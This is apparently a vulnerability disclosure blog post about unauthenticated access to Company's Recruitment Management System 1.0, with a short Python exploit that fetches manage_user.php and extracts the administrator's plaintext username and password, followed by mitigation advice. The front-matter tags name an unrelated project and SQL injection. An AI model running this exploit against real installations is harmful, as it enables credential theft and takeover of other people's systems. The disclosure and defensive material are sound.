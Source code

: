 ```yaml
---
title: Company's Recruitment Management System 1.0 - Remote Readable Administrator Credentials (Unauthenticated)
tags: [ exploit, simple-image-gallery-system, sql-injection]
style: border
color: danger
description: ""
---
```


![](../assets/img/companys-recruitment-management-system/1.png)

## Introduction
This is a **PHP Project** entitled **Company's Recruitment Management System**. This project is a web-based application that is a sort of job portal website for a certain company. This system provides the company's possible employees an online platform to explore the careers/employment vacancies of the company. It has a pleasant user interface and user-friendly functionalities

**Link:** [Company's Recruitment Management System](https://www.sourcecodester.com/php/14959/companys-recruitment-management-system-php-and-sqlite-free-source-code.html)

## Vulnerability
The flaw is actually a poor authorization control, by which a **remote and unauthenticated attacker** would gain access to **private areas** of the application.

The following evidence shows how the software has an authentication form.

![](../assets/img/companys-recruitment-management-system/2.png)

The following illustration shows the conditional used by the application after authentication, where the path "*index.php?page=home*" is shown.

![](../assets/img/companys-recruitment-management-system/3.png)

The **remote attacker would gain access to the application's control panel without the need for credentials**, because the application first loads the website content and then performs an authentication check.

![](../assets/img/companys-recruitment-management-system/4.png)

In addition, the **attacker would gain access to the entire application**, obtaining **confidential data** or altering the **information arbitrarily**. 

![](../assets/img/companys-recruitment-management-system/5.png)

## Impact
The vulnerability could be exploited by unauthenticated remote attackers to:
- Gain access to the application's management panel.
- Gaining private employee data.
- Enumerating relevant corporate users in the organization.
- Making arbitrary changes to the application.
- Privilege escalation.
- Theft of administrative credentials.

## Exploitation
Although the attacker would have access to certain information, there are areas of the application that are only shown to **authenticated administrator users**, but are they really protected for the rest of the users? 
The following evidence shows that the **attacker would manage to enumerate or alter the administrator users**, this is due to a deficiency in the authorization and authentication controls.

![](../assets/img/companys-recruitment-management-system/6.png)

Another of the deficiencies detected is that it seems that the **application saves the passwords flat in the database**, loading them directly in the "*password*" field of the form, logically an attacker would take advantage of this deficiency to **know the credentials of the users and administrators** of the application.

![](../assets/img/companys-recruitment-management-system/7.png)


## Automating explotation
Well, the attacker would have the **deficiency of authentication and authorization by roles** in the different areas of the application, it is also noted that the **password storage in the database is not encrypted**. Therefore, the attacker could program an exploit *concatenating the detected vulnerabilities* and **obtaining the administrator's credentials** with a single request and **without authentication**.

![](../assets/img/companys-recruitment-management-system/8.png)

#### Exploit:
```python
# Exploit Title: Company's Recruitment Management System 1.0 - Remote Readable Administrator Credentials (Unauthenticated)
# Date: 02/07/2022
# Exploit Author: David Utón (M3n0sD0n4ld)
# Vendor Homepage: https://www.sourcecodester.com/php/14959/companys-recruitment-management-system-php-and-sqlite-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/employment_application.zip
# Tested on: GNU/Linux Debian 10

#!/usr/bin/python3
# Author: @David_Uton (m3n0sd0n4ld)
# Github: https://m3n0sd0n4ld.github.io
# Usage: python3 CRMS-exploit.py http[s]//IP|HOST[:PORT]

import requests, re, sys

def banner():
    print("""
   _____ _____  __  __  _____       ______            _       _ _   
  / ____|  __ \|  \/  |/ ____|     |  ____|          | |     (_) |  
 | |    | |__) | \  / | (___ ______| |__  __  ___ __ | | ___  _| |_ 
 | |    |  _  /| |\/| |\___ \______|  __| \ \/ / '_ \| |/ _ \| | __|
 | |____| | \ \| |  | |____) |     | |____ >  <| |_) | | (_) | | |_ 
  \_____|_|  \_\_|  |_|_____/      |______/_/\_\ .__/|_|\___/|_|\__|
                                               | |                  
                                               |_|                  
""")

if __name__ == '__main__':
    banner()

    if len(sys.argv) == 1:
        print("[!] Error! Specify the URL")
    else:
        url = sys.argv[1]
        
        print("\n[+] Extracting user and administrator password.")

        s = requests.session()

        r = s.get("%s/manage_user.php?id=1" % url)

        username = re.findall(r'id="username" class="form-control" value="(.*?)"',r.text)
        password = re.findall(r'id="password" class="form-control" value="(.*?)"',r.text)
        
        print("\nUsername: " + str(username)[1:-1].replace("'",''))
        print("Password: " + str(password)[1:-1].replace("'",''))
```

## Mitigation
Of course, the complete review of the application, being necessary to check user authentication in all areas of the application before loading the information.

It will also be convenient to resolve or apply a correct authorization control by roles in sections and files of the application, mitigating that users with low privileges can access or perform arbitrary actions of higher roles, this could allow an escalation of privileges or the total compromise of the application.


## Links
- [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
- [Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html)